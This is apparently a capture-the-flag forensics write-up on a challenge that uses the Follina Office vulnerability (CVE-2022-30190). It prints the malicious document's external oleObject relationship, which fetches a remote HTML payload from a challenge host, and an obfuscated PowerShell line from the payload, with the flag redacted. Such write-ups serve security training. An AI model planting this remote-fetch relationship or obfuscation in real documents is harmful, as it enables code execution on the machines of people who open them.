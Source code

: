 ## Skills involved: basic research and reversing

A nice little forensics challenge with no forensic tools required.

<details>
  <summary>Hint 1: </summary>
  
  It's advisable not to run programs or open pdfs/docs without checking whether it contains virus or not, especially if it's a forensics challenge.
</details>

<details>
  <summary><b>Solution: </b></summary>
  <br/>
  
  The file uses [CVE-2022-30190](https://nvd.nist.gov/vuln/detail/cve-2022-30190), which is explained extensively by [John Hammond](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).
  The file can also be changed to .zip format and decompressed (all docs are zips). Some guessing will be needed if the solver didn't scan the file, e.g. searching the domain `diagnostic.htb`. Eventually we land on `document.xml.rels`:
  
```xml
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://diagnostic.htb:32208/223_index_style_fancy.html!" TargetMode="External"/>
```
  
  After downloading the file, the flag can be decoded with base64 decryption and understanding some Powershell command.
  
```ps
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{**','**','**','**','**','**','HT','**')
```
(*flag redacted*)
</details>
